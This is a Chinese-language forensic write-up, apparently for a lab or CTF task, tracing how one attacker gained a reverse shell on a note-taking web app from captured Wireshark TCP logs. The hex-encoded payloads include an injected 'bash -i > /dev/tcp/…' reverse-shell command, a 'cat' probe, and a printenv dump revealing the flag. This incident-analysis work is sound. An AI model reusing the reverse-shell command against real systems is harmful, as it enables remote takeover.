





# 第6题 攻击溯源故事
本题的溯源思路是，由于本题涉及网站漏洞和反弹shell的漏洞攻击，而该攻击方案往往产生的是tcp报文，所以首先需要对HTTP报文进行筛选，找到攻击者建立反弹shell的报文，然后对tcp报文进行解析可以发现攻击者在建立反弹shell之后执行了那些系统命令来进行攻击，以及获取了哪些返回（包括FLAG）
## 关于代码
- my_parser.py
日志解析器，按照自己的想法筛选日志用
- tco_parser.py 解析tcp报文，将16进制编码的tcp.payload 转换问可阅读字符串
- flag_parser.py 全局寻找符合flag格式的字符串
- dirsearcg_ignore.py 
dirsearch 工具产生了大量的日志，要过滤这部分日志可以采取以下方法
1. request / response 是分别打印的，可以将 response 中 NOT FOUND 的内容过滤掉，减小审计量
2. dirsearch 的日志是连续的，且按照字母顺序排列，最后一个字母是~，例如ip为26的可以从9088行开始看，前面的都没用

- tool.py 一些工具函数，辅助日志查看的
## 关于攻击
### 11
(准备动作)`Apr 16, 2023 16:18:16.229058000 CST` 攻击者第一次通过HTTP访问网站，这比其真实的攻击时间还要晚，是因为攻击者本机代理HTTP报文，故在wireguard中只能发现tcp报文，而找不到HTTP报文
```
{"http": {"GET / HTTP/1.1\\r\\n": {"_ws.expert": {"http.chat": "", "_ws.expert.message": "GET / HTTP/1.1\\r\\n", "_ws.expert.severity": "2097152", "_ws.expert.group": "33554432"}, "http.request.method": "GET", "http.request.uri": "/", "http.request.version": "HTTP/1.1"}, "http.host": "10.0.0.6", "http.request.line": "Accept: */*\r\n", "http.user_agent": "curl/7.87.0", "http.accept": "*/*", "\\r\\n": "", "http.request.full_uri": "http://10.0.0.6/", "http.request": "1", "http.request_number": "1"}, "frame.time": "Apr 16, 2023 16:18:16.229058000 CST"}
```

(成功动作) `Apr 22, 2023 16:06:13.108334000` 攻击者将HTTP的请求转发到攻击机4760端口，所以接下来的攻击几乎没有HTTP报文，这和其他的攻击方式都不一样(其他同学都是POST /edit_note 来反弹shell)，该攻击者通过代理的方式隐藏了HTTP报文，只有通过解析tcp报文才能发现
```
{"frame.time": "Apr 22, 2023 16:06:13.108334000 \u4e2d\u56fd\u6807\u51c6\u65f6\u95f4", "tcp": {"tcp.srcport": "7000", "tcp.dstport": "35046", "tcp.port": "35046", "tcp.stream": "38932", "tcp.completeness": "31", "tcp.len": "77", "tcp.seq": "162001", "tcp.seq_raw": "3095402682", "tcp.nxtseq": "162078", "tcp.ack": "65764", "tcp.ack_raw": "2118611683", "tcp.hdr_len": "32", "tcp.flags": "0x0018", "tcp.flags_tree": {"tcp.flags.res": "0", "tcp.flags.ae": "0", "tcp.flags.cwr": "0", "tcp.flags.ece": "0", "tcp.flags.urg": "0", "tcp.flags.ack": "1", "tcp.flags.push": "1", "tcp.flags.reset": "0", "tcp.flags.syn": "0", "tcp.flags.fin": "0", "tcp.flags.str": "\u00b7\u00b7\u00b7\u00b7\u00b7\u00b7\u00b7AP\u00b7\u00b7\u00b7"}, "tcp.window_size_value": "49152", "tcp.window_size": "12582912", "tcp.window_size_scalefactor": "256", "tcp.checksum": "0xb519", "tcp.checksum.status": "2", "tcp.urgent_pointer": "0", "tcp.options": "01:01:08:0a:19:ca:97:f4:b2:9d:c5:0e", "tcp.options_tree": {"tcp.options.nop": "01", "tcp.options.nop_tree": {"tcp.option_kind": "1"}, "tcp.options.timestamp": "08:0a:19:ca:97:f4:b2:9d:c5:0e", "tcp.options.timestamp_tree": {"tcp.option_kind": "8", "tcp.option_len": "10", "tcp.options.timestamp.tsval": "432707572", "tcp.options.timestamp.tsecr": "2996684046"}}, "Timestamps": {"tcp.time_relative": "3440.302887000", "tcp.time_delta": "0.000168000"}, "tcp.analysis": {"tcp.analysis.initial_rtt": "0.071582000", "tcp.analysis.bytes_in_flight": "89", "tcp.analysis.push_bytes_sent": "77"}, "tcp.payload": "73:00:00:00:00:00:00:00:44:7b:22:70:72:6f:78:79:5f:6e:61:6d:65:22:3a:22:68:74:74:70:5f:70:72:6f:78:79:22:2c:22:73:72:63:5f:61:64:64:72:22:3a:22:31:30:2e:32:35:34:2e:30:2e:32:32:22:2c:22:73:72:63:5f:70:6f:72:74:22:3a:34:37:36:30:7d", "tcp.reassembled_in": "1862605", "tcp.segment_data": "73:00:00:00:00:00:00:00:44:7b:22:70:72:6f:78:79:5f:6e:61:6d:65:22:3a:22:68:74:74:70:5f:70:72:6f:78:79:22:2c:22:73:72:63:5f:61:64:64:72:22:3a:22:31:30:2e:32:35:34:2e:30:2e:32:32:22:2c:22:73:72:63:5f:70:6f:72:74:22:3a:34:37:36:30:7d"}}
```


(成功动作) `Apr 22, 2023 16:06:13.109373000` 结合上图，可以发现攻击者构造了恶意参数，建立了反弹shell（不过可以发现本机ip有个typo）
```
{"frame.time": "Apr 22, 2023 16:06:13.109373000 \u4e2d\u56fd\u6807\u51c6\u65f6\u95f4", "tcp": {"tcp.srcport": "7000", "tcp.dstport": "35046", "tcp.port": "35046", "tcp.stream": "38932", "tcp.completeness": "31", "tcp.len": "566", "tcp.seq": "162113", "tcp.seq_raw": "3095402794", "tcp.nxtseq": "162679", "tcp.ack": "65764", "tcp.ack_raw": "2118611683", "tcp.hdr_len": "32", "tcp.flags": "0x0018", "tcp.flags_tree": {"tcp.flags.res": "0", "tcp.flags.ae": "0", "tcp.flags.cwr": "0", "tcp.flags.ece": "0", "tcp.flags.urg": "0", "tcp.flags.ack": "1", "tcp.flags.push": "1", "tcp.flags.reset": "0", "tcp.flags.syn": "0", "tcp.flags.fin": "0", "tcp.flags.str": "\u00b7\u00b7\u00b7\u00b7\u00b7\u00b7\u00b7AP\u00b7\u00b7\u00b7"}, "tcp.window_size_value": "49152", "tcp.window_size": "12582912", "tcp.window_size_scalefactor": "256", "tcp.checksum": "0x6f97", "tcp.checksum.status": "2", "tcp.urgent_pointer": "0", "tcp.options": "01:01:08:0a:19:ca:97:f4:b2:9d:c5:0e", "tcp.options_tree": {"tcp.options.nop": "01", "tcp.options.nop_tree": {"tcp.option_kind": "1"}, "tcp.options.timestamp": "08:0a:19:ca:97:f4:b2:9d:c5:0e", "tcp.options.timestamp_tree": {"tcp.option_kind": "8", "tcp.option_len": "10", "tcp.options.timestamp.tsval": "432707572", "tcp.options.timestamp.tsecr": "2996684046"}}, "Timestamps": {"tcp.time_relative": "3440.303926000", "tcp.time_delta": "0.000167000"}, "tcp.analysis": {"tcp.analysis.initial_rtt": "0.071582000", "tcp.analysis.bytes_in_flight": "601", "tcp.analysis.push_bytes_sent": "566"}, "tcp.payload": "50:4f:53:54:20:2f:65:64:69:74:5f:6e:6f:74:65:20:48:54:54:50:2f:31:2e:31:0d:0a:48:6f:73:74:3a:20:31:30:2e:32:35:34:2e:30:2e:32:32:3a:38:38:38:30:0d:0a:55:73:65:72:2d:41:67:65:6e:74:3a:20:4d:6f:7a:69:6c:6c:61:2f:35:2e:30:20:28:57:69:6e:64:6f:77:73:20:4e:54:20:31:30:2e:30:3b:20:57:69:6e:36:34:3b:20:78:36:34:29:20:41:70:70:6c:65:57:65:62:4b:69:74:2f:35:33:37:2e:33:36:20:28:4b:48:54:4d:4c:2c:20:6c:69:6b:65:20:47:65:63:6b:6f:29:20:43:68:72:6f:6d:65:2f:31:31:30:2e:30:2e:35:34:38:31:2e:37:38:20:53:61:66:61:72:69:2f:35:33:37:2e:33:36:0d:0a:43:6f:6e:74:65:6e:74:2d:4c:65:6e:67:74:68:3a:20:36:37:0d:0a:41:63:63:65:70:74:3a:20:74:65:78:74:2f:68:74:6d:6c:2c:61:70:70:6c:69:63:61:74:69:6f:6e:2f:78:68:74:6d:6c:2b:78:6d:6c:2c:61:70:70:6c:69:63:61:74:69:6f:6e:2f:78:6d:6c:3b:71:3d:30:2e:39:2c:69:6d:61:67:65:2f:61:76:69:66:2c:69:6d:61:67:65:2f:77:65:62:70:2c:69:6d:61:67:65:2f:61:70:6e:67:2c:2a:2f:2a:3b:71:3d:30:2e:38:2c:61:70:70:6c:69:63:61:74:69:6f:6e:2f:73:69:67:6e:65:64:2d:65:78:63:68:61:6e:67:65:3b:76:3d:62:33:3b:71:3d:30:2e:37:0d:0a:41:63:63:65:70:74:2d:45:6e:63:6f:64:69:6e:67:3a:20:67:7a:69:70:2c:20:64:65:66:6c:61:74:65:0d:0a:41:63:63:65:70:74:2d:4c:61:6e:67:75:61:67:65:3a:20:65:6e:2d:55:53:2c:65:6e:3b:71:3d:30:2e:39:0d:0a:43:6f:6e:74:65:6e:74:2d:54:79:70:65:3a:20:61:70:70:6c:69:63:61:74:69:6f:6e:2f:78:2d:77:77:77:2d:66:6f:72:6d:2d:75:72:6c:65:6e:63:6f:64:65:64:0d:0a:43:6f:6f:6b:69:65:3a:20:50:48:50:53:45:53:53:49:44:3d:32:69:73:64:65:6b:6d:6f:64:6e:37:74:6a:75:33:38:31:6f:6d:74:31:6c:30:34:70:30:0d:0a:55:70:67:72:61:64:65:2d:49:6e:73:65:63:75:72:65:2d:52:65:71:75:65:73:74:73:3a:20:31:0d:0a:58:2d:46:6f:72:77:61:72:64:65:64:2d:46:6f:72:3a:20:31:30:2e:32:35:34:2e:30:2e:32:32:0d:0a:0d:0a", "tcp.reassembled_in": "1862605", "tcp.segment_data": "50:4f:53:54:20:2f:65:64:69:74:5f:6e:6f:74:65:20:48:54:54:50:2f:31:2e:31:0d:0a:48:6f:73:74:3a:20:31:30:2e:32:35:34:2e:30:2e:32:32:3a:38:38:38:30:0d:0a:55:73:65:72:2d:41:67:65:6e:74:3a:20:4d:6f:7a:69:6c:6c:61:2f:35:2e:30:20:28:57:69:6e:64:6f:77:73:20:4e:54:20:31:30:2e:30:3b:20:57:69:6e:36:34:3b:20:78:36:34:29:20:41:70:70:6c:65:57:65:62:4b:69:74:2f:35:33:37:2e:33:36:20:28:4b:48:54:4d:4c:2c:20:6c:69:6b:65:20:47:65:63:6b:6f:29:20:43:68:72:6f:6d:65:2f:31:31:30:2e:30:2e:35:34:38:31:2e:37:38:20:53:61:66:61:72:69:2f:35:33:37:2e:33:36:0d:0a:43:6f:6e:74:65:6e:74:2d:4c:65:6e:67:74:68:3a:20:36:37:0d:0a:41:63:63:65:70:74:3a:20:74:65:78:74:2f:68:74:6d:6c:2c:61:70:70:6c:69:63:61:74:69:6f:6e:2f:78:68:74:6d:6c:2b:78:6d:6c:2c:61:70:70:6c:69:63:61:74:69:6f:6e:2f:78:6d:6c:3b:71:3d:30:2e:39:2c:69:6d:61:67:65:2f:61:76:69:66:2c:69:6d:61:67:65:2f:77:65:62:70:2c:69:6d:61:67:65:2f:61:70:6e:67:2c:2a:2f:2a:3b:71:3d:30:2e:38:2c:61:70:70:6c:69:63:61:74:69:6f:6e:2f:73:69:67:6e:65:64:2d:65:78:63:68:61:6e:67:65:3b:76:3d:62:33:3b:71:3d:30:2e:37:0d:0a:41:63:63:65:70:74:2d:45:6e:63:6f:64:69:6e:67:3a:20:67:7a:69:70:2c:20:64:65:66:6c:61:74:65:0d:0a:41:63:63:65:70:74:2d:4c:61:6e:67:75:61:67:65:3a:20:65:6e:2d:55:53:2c:65:6e:3b:71:3d:30:2e:39:0d:0a:43:6f:6e:74:65:6e:74:2d:54:79:70:65:3a:20:61:70:70:6c:69:63:61:74:69:6f:6e:2f:78:2d:77:77:77:2d:66:6f:72:6d:2d:75:72:6c:65:6e:63:6f:64:65:64:0d:0a:43:6f:6f:6b:69:65:3a:20:50:48:50:53:45:53:53:49:44:3d:32:69:73:64:65:6b:6d:6f:64:6e:37:74:6a:75:33:38:31:6f:6d:74:31:6c:30:34:70:30:0d:0a:55:70:67:72:61:64:65:2d:49:6e:73:65:63:75:72:65:2d:52:65:71:75:65:73:74:73:3a:20:31:0d:0a:58:2d:46:6f:72:77:61:72:64:65:64:2d:46:6f:72:3a:20:31:30:2e:32:35:34:2e:30:2e:32:32:0d:0a:0d:0a"}}
```

(失败动作) `Apr 22, 2023 17:07:35.484600000` 攻击者尝试cat `package.json`,`public`等文件获得FLAG
```
{"frame.time": "Apr 22, 2023 17:07:35.484600000 \u4e2d\u56fd\u6807\u51c6\u65f6\u95f4", "tcp": {"tcp.srcport": "5001", "tcp.dstport": "44212", "tcp.port": "44212", "tcp.stream": "43419", "tcp.completeness": "31", "tcp.len": "17", "tcp.seq": "63", "tcp.seq_raw": "279036346", "tcp.nxtseq": "80", "tcp.ack": "5485", "tcp.ack_raw": "2301275156", "tcp.hdr_len": "32", "tcp.flags": "0x0018", "tcp.flags_tree": {"tcp.flags.res": "0", "tcp.flags.ae": "0", "tcp.flags.cwr": "0", "tcp.flags.ece": "0", "tcp.flags.urg": "0", "tcp.flags.ack": "1", "tcp.flags.push": "1", "tcp.flags.reset": "0", "tcp.flags.syn": "0", "tcp.flags.fin": "0", "tcp.flags.str": "\u00b7\u00b7\u00b7\u00b7\u00b7\u00b7\u00b7AP\u00b7\u00b7\u00b7"}, "tcp.window_size_value": "49153", "tcp.window_size": "12583168", "tcp.window_size_scalefactor": "256", "tcp.checksum": "0x851b", "tcp.checksum.status": "2", "tcp.urgent_pointer": "0", "tcp.options": "01:01:08:0a:1a:02:c8:3f:5a:d9:88:43", "tcp.options_tree": {"tcp.options.nop": "01", "tcp.options.nop_tree": {"tcp.option_kind": "1"}, "tcp.options.timestamp": "08:0a:1a:02:c8:3f:5a:d9:88:43", "tcp.options.timestamp_tree": {"tcp.option_kind": "8", "tcp.option_len": "10", "tcp.options.timestamp.tsval": "436389951", "tcp.options.timestamp.tsecr": "1524205635"}}, "Timestamps": {"tcp.time_relative": "88.808125000", "tcp.time_delta": "5.136262000"}, "tcp.analysis": {"tcp.analysis.initial_rtt": "0.071843000", "tcp.analysis.bytes_in_flight": "17", "tcp.analysis.push_bytes_sent": "17"}, "tcp.payload": "63:61:74:20:70:61:63:6b:61:67:65:2e:6a:73:6f:6e:0a"}}
```

(攻击动作) `Apr 22, 2023 17:09:00.605506000` 攻击者通过执行`printenv` 获得了`FLAG=533402f6-d698-40c3-8320-59c7ad03b79a
`
```
{"frame.time": "Apr 22, 2023 17:09:00.605506000 \u4e2d\u56fd\u6807\u51c6\u65f6\u95f4", "tcp": {"tcp.srcport": "44212", "tcp.dstport": "5001", "tcp.port": "5001", "tcp.stream": "43419", "tcp.completeness": "31", "tcp.len": "1274", "tcp.seq": "6161", "tcp.seq_raw": "2301275832", "tcp.nxtseq": "7435", "tcp.ack": "218", "tcp.ack_raw": "279036501", "tcp.hdr_len": "32", "tcp.flags": "0x0018", "tcp.flags_tree": {"tcp.flags.res": "0", "tcp.flags.ae": "0", "tcp.flags.cwr": "0", "tcp.flags.ece": "0", "tcp.flags.urg": "0", "tcp.flags.ack": "1", "tcp.flags.push": "1", "tcp.flags.reset": "0", "tcp.flags.syn": "0", "tcp.flags.fin": "0", "tcp.flags.str": "\u00b7\u00b7\u00b7\u00b7\u00b7\u00b7\u00b7AP\u00b7\u00b7\u00b7"}, "tcp.window_size_value": "502", "tcp.window_size": "64256", "tcp.window_size_scalefactor": "128", "tcp.checksum": "0x53aa", "tcp.checksum.status": "2", "tcp.urgent_pointer": "0", "tcp.options": "01:01:08:0a:5a:da:e9:52:1a:04:14:be", "tcp.options_tree": {"tcp.options.nop": "01", "tcp.options.nop_tree": {"tcp.option_kind": "1"}, "tcp.options.timestamp": "08:0a:5a:da:e9:52:1a:04:14:be", "tcp.options.timestamp_tree": {"tcp.option_kind": "8", "tcp.option_len": "10", "tcp.options.timestamp.tsval": "1524296018", "tcp.options.timestamp.tsecr": "436475070"}}, "Timestamps": {"tcp.time_relative": "173.929031000", "tcp.time_delta": "0.002683000"}, "tcp.analysis": {"tcp.analysis.initial_rtt": "0.071843000", "tcp.analysis.bytes_in_flight": "1274", "tcp.analysis.push_bytes_sent": "1274"}, "tcp.payload": "4e:4f:44:45:5f:41:50:50:5f:49:4e:53:54:41:4e:43:45:3d:30:0a:65:78:65:63:5f:69:6e:74:65:72:70:72:65:74:65:72:3d:6e:6f:64:65:0a:59:41:52:4e:5f:56:45:52:53:49:4f:4e:3d:31:2e:32:32:2e:34:0a:61:78:6d:5f:61:63:74:69:6f:6e:73:3d:0a:6e:61:6d:65:73:70:61:63:65:3d:64:65:66:61:75:6c:74:0a:50:4d:32:5f:49:4e:54:45:52:41:43:54:4f:52:5f:50:52:4f:43:45:53:53:49:4e:47:3d:74:72:75:65:0a:70:6d:5f:69:64:3d:30:0a:6b:69:6c:6c:5f:72:65:74:72:79:5f:74:69:6d:65:3d:31:30:30:0a:4c:41:4e:47:3d:43:2e:55:54:46:2d:38:0a:70:6d:78:3d:74:72:75:65:0a:48:4f:53:54:4e:41:4d:45:3d:30:66:30:64:31:31:30:62:38:32:33:32:0a:61:78:6d:5f:64:79:6e:61:6d:69:63:3d:5b:6f:62:6a:65:63:74:20:4f:62:6a:65:63:74:5d:0a:50:55:50:50:45:54:45:45:52:5f:53:4b:49:50:5f:43:48:52:4f:4d:49:55:4d:5f:44:4f:57:4e:4c:4f:41:3d:74:72:75:65:0a:6b:6d:5f:6c:69:6e:6b:3d:66:61:6c:73:65:0a:6d:65:72:67:65:5f:6c:6f:67:73:3d:74:72:75:65:0a:50:4d:32:5f:48:4f:4d:45:3d:2f:72:6f:6f:74:2f:2e:70:6d:32:0a:77:65:62:3d:7b:7d:0a:75:6e:69:71:75:65:5f:69:64:3d:39:39:38:65:65:65:63:31:2d:38:62:38:35:2d:34:66:62:34:2d:38:65:38:63:2d:34:33:31:39:64:30:35:64:38:36:36:63:0a:69:6e:73:74:61:6e:63:65:73:3d:31:0a:69:6e:73:74:61:6e:63:65:5f:76:61:72:3d:4e:4f:44:45:5f:41:50:50:5f:49:4e:53:54:41:4e:43:45:0a:77:69:6e:64:6f:77:73:48:69:64:65:3d:74:72:75:65:0a:72:65:73:74:61:72:74:5f:74:69:6d:65:3d:30:0a:73:74:61:74:75:73:3d:6c:61:75:6e:63:68:69:6e:67:0a:72:61:77:5f:6e:6f:74:65:3d:74:65:73:74:0a:61:75:74:6f:72:65:73:74:61:72:74:3d:74:72:75:65:0a:70:6d:5f:75:70:74:69:6d:65:3d:31:36:38:32:31:35:33:39:35:34:37:37:32:0a:50:57:44:3d:2f:68:6f:6d:65:2f:6e:6f:64:65:2f:73:72:63:0a:48:4f:4d:45:3d:2f:72:6f:6f:74:0a:50:4d:32:5f:55:53:41:47:45:3d:43:4c:49:0a:70:6d:5f:6f:75:74:5f:6c:6f:67:5f:70:61:74:68:3d:2f:68:6f:6d:65:2f:6e:6f:64:65:2f:6c:6f:67:73:2f:73:74:64:6f:75:74:2e:6c:6f:67:0a:65:6e:76:3d:5b:6f:62:6a:65:63:74:20:4f:62:6a:65:63:74:5d:0a:74:72:65:65:6b:69:6c:6c:3d:74:72:75:65:0a:4e:4f:44:45:5f:56:45:52:53:49:4f:4e:3d:31:32:2e:31:36:2e:33:0a:6e:61:6d:65:3d:77:65:62:0a:61:75:74:6f:6d:61:74:69:6f:6e:3d:74:72:75:65:0a:61:78:6d:5f:6f:70:74:69:6f:6e:73:3d:5b:6f:62:6a:65:63:74:20:4f:62:6a:65:63:74:5d:0a:63:77:64:3d:2f:68:6f:6d:65:2f:6e:6f:64:65:2f:73:72:63:0a:75:73:65:72:6e:61:6d:65:3d:72:6f:6f:74:0a:6c:6f:67:5f:64:61:74:65:5f:66:6f:72:6d:61:74:3d:59:59:59:59:2d:4d:4d:2d:44:44:20:48:48:3a:6d:6d:0a:6d:69:6e:5f:75:70:74:69:6d:65:3d:32:30:30:30:30:30:0a:75:6e:73:74:61:62:6c:65:5f:72:65:73:74:61:72:74:73:3d:30:0a:46:4c:41:47:3d:35:33:33:34:30:32:66:36:2d:64:36:39:38:2d:34:30:63:33:2d:38:33:32:30:2d:35:39:63:37:61:64:30:33:62:37:39:61:0a:50:4d:32:5f:4a:53:4f:4e:5f:50:52:4f:43:45:53:53:49:4e:47:3d:74:72:75:65:0a:76:69:7a:69:6f:6e:3d:66:61:6c:73:65:0a:70:6d:5f:65:72:72:5f:6c:6f:67:5f:70:61:74:68:3d:2f:68:6f:6d:65:2f:6e:6f:64:65:2f:6c:6f:67:73:2f:73:74:64:65:72:72:2e:6c:6f:67:0a:61:75:74:68:6f:72:3d:62:61:73:68:20:2d:69:20:3e:20:2f:64:65:76:2f:74:63:70:2f:31:30:2e:32:35:34:2e:30:2e:32:32:2f:35:30:30:31:20:30:3e:26:31:0a:70:6d:5f:65:78:65:63:5f:70:61:74:68:3d:2f:68:6f:6d:65:2f:6e:6f:64:65:2f:73:72:63:2f:61:70:70:2e:6a:73:0a:53:48:4c:56:4c:3d:32:0a:61:78:6d:5f:6d:6f:6e:69:74:6f:72:3d:5b:6f:62:6a:65:63:74:20:4f:62:6a:65:63:74:5d:0a:76:69:7a:69:6f:6e:5f:72:75:6e:6e:69:6e:67:3d:66:61:6c:73:65:0a:6e:6f:64:65:5f:61:72:67:73:3d:0a:70:6d:5f:63:77:64:3d:2f:68:6f:6d:65:2f:6e:6f:64:65:2f:73:72:63:0a:50:41:54:48:3d:2f:75:73:72:2f:6c:6f:63:61:6c:2f:73:62:69:6e:3a:2f:75:73:72:2f:6c:6f:63:61:6c:2f:62:69:6e:3a:2f:75:73:72:2f:73:62:69:6e:3a:2f:75:73:72:2f:62:69:6e:3a:2f:73:62:69:6e:3a:2f:62:69:6e:0a:65:78:65:63:5f:6d:6f:64:65:3d:66:6f:72:6b:5f:6d:6f:64:65:0a:63:72:65:61:74:65:64:5f:61:74:3d:31:36:38:32:31:35:33:39:35:34:37:37:32:0a:70:6d:5f:70:69:64:5f:70:61:74:68:3d:2f:76:61:72:2f:72:75:6e:2f:6e:6f:64:65:5f:77:65:62:2d:30:2e:70:69:64:0a:5f:3d:2f:75:73:72:2f:62:69:6e:2f:70:72:69:6e:74:65:6e:76:0a"}}
```


通过解码tcp报文，可以发现编号11的真实ip是`10.254.0.22`

```
{"frame.time": "Apr 20, 2023 17:10:30.270059000 CST", "tcp": {"tcp.srcport": "7000", "tcp.dstport": "55104", "tcp.port": "55104", "tcp.stream": "303546", "tcp.completeness": "15", "tcp.len": "487", "tcp.seq": "431", "tcp.seq_raw": "3799011789", "tcp.nxtseq": "918", "tcp.ack": "460", "tcp.ack_raw": "3790004846", "tcp.hdr_len": "32", "tcp.flags": "0x0018", "tcp.flags_tree": {"tcp.flags.res": "0", "tcp.flags.ns": "0", "tcp.flags.cwr": "0", "tcp.flags.ecn": "0", "tcp.flags.urg": "0", "tcp.flags.ack": "1", "tcp.flags.push": "1", "tcp.flags.reset": "0", "tcp.flags.syn": "0", "tcp.flags.fin": "0", "tcp.flags.str": "\u00b7\u00b7\u00b7\u00b7\u00b7\u00b7\u00b7AP\u00b7\u00b7\u00b7"}, "tcp.window_size_value": "49151", "tcp.window_size": "12582656", "tcp.window_size_scalefactor": "256", "tcp.checksum": "0x994f", "tcp.checksum.status": "2", "tcp.urgent_pointer": "0", "tcp.options": "01:01:08:0a:0f:b8:ad:94:79:0f:2f:2c", "tcp.options_tree": {"tcp.options.nop": "01", "tcp.options.nop_tree": {"tcp.option_kind": "1"}, "tcp.options.timestamp": "08:0a:0f:b8:ad:94:79:0f:2f:2c", "tcp.options.timestamp_tree": {"tcp.option_kind": "8", "tcp.option_len": "10", "tcp.options.timestamp.tsval": "263761300", "tcp.options.timestamp.tsecr": "2031038252"}}, "Timestamps": {"tcp.time_relative": "9.580771000", "tcp.time_delta": "0.000098000"}, "tcp.payload": "47:45:54:20:2f:20:48:54:54:50:2f:31:2e:31:0d:0a:48:6f:73:74:3a:20:31:30:2e:32:35:34:2e:30:2e:32:32:3a:38:38:38:30:0d:0a:55:73:65:72:2d:41:67:65:6e:74:3a:20:4d:6f:7a:69:6c:6c:61:2f:35:2e:30:20:28:57:69:6e:64:6f:77:73:20:4e:54:20:31:30:2e:30:3b:20:57:69:6e:36:34:3b:20:78:36:34:29:20:41:70:70:6c:65:57:65:62:4b:69:74:2f:35:33:37:2e:33:36:20:28:4b:48:54:4d:4c:2c:20:6c:69:6b:65:20:47:65:63:6b:6f:29:20:43:68:72:6f:6d:65:2f:31:31:30:2e:30:2e:35:34:38:31:2e:37:38:20:53:61:66:61:72:69:2f:35:33:37:2e:33:36:0d:0a:41:63:63:65:70:74:3a:20:74:65:78:74:2f:68:74:6d:6c:2c:61:70:70:6c:69:63:61:74:69:6f:6e:2f:78:68:74:6d:6c:2b:78:6d:6c:2c:61:70:70:6c:69:63:61:74:69:6f:6e:2f:78:6d:6c:3b:71:3d:30:2e:39:2c:69:6d:61:67:65:2f:61:76:69:66:2c:69:6d:61:67:65:2f:77:65:62:70:2c:69:6d:61:67:65:2f:61:70:6e:67:2c:2a:2f:2a:3b:71:3d:30:2e:38:2c:61:70:70:6c:69:63:61:74:69:6f:6e:2f:73:69:67:6e:65:64:2d:65:78:63:68:61:6e:67:65:3b:76:3d:62:33:3b:71:3d:30:2e:37:0d:0a:41:63:63:65:70:74:2d:45:6e:63:6f:64:69:6e:67:3a:20:67:7a:69:70:2c:20:64:65:66:6c:61:74:65:0d:0a:41:63:63:65:70:74:2d:4c:61:6e:67:75:61:67:65:3a:20:65:6e:2d:55:53:2c:65:6e:3b:71:3d:30:2e:39:0d:0a:43:6f:6f:6b:69:65:3a:20:50:48:50:53:45:53:53:49:44:3d:32:69:73:64:65:6b:6d:6f:64:6e:37:74:6a:75:33:38:31:6f:6d:74:31:6c:30:34:70:30:0d:0a:55:70:67:72:61:64:65:2d:49:6e:73:65:63:75:72:65:2d:52:65:71:75:65:73:74:73:3a:20:31:0d:0a:58:2d:46:6f:72:77:61:72:64:65:64:2d:46:6f:72:3a:20:31:30:2e:32:35:34:2e:30:2e:32:32:0d:0a:0d:0a", "tcp.segment_data": "47:45:54:20:2f:20:48:54:54:50:2f:31:2e:31:0d:0a:48:6f:73:74:3a:20:31:30:2e:32:35:34:2e:30:2e:32:32:3a:38:38:38:30:0d:0a:55:73:65:72:2d:41:67:65:6e:74:3a:20:4d:6f:7a:69:6c:6c:61:2f:35:2e:30:20:28:57:69:6e:64:6f:77:73:20:4e:54:20:31:30:2e:30:3b:20:57:69:6e:36:34:3b:20:78:36:34:29:20:41:70:70:6c:65:57:65:62:4b:69:74:2f:35:33:37:2e:33:36:20:28:4b:48:54:4d:4c:2c:20:6c:69:6b:65:20:47:65:63:6b:6f:29:20:43:68:72:6f:6d:65:2f:31:31:30:2e:30:2e:35:34:38:31:2e:37:38:20:53:61:66:61:72:69:2f:35:33:37:2e:33:36:0d:0a:41:63:63:65:70:74:3a:20:74:65:78:74:2f:68:74:6d:6c:2c:61:70:70:6c:69:63:61:74:69:6f:6e:2f:78:68:74:6d:6c:2b:78:6d:6c:2c:61:70:70:6c:69:63:61:74:69:6f:6e:2f:78:6d:6c:3b:71:3d:30:2e:39:2c:69:6d:61:67:65:2f:61:76:69:66:2c:69:6d:61:67:65:2f:77:65:62:70:2c:69:6d:61:67:65:2f:61:70:6e:67:2c:2a:2f:2a:3b:71:3d:30:2e:38:2c:61:70:70:6c:69:63:61:74:69:6f:6e:2f:73:69:67:6e:65:64: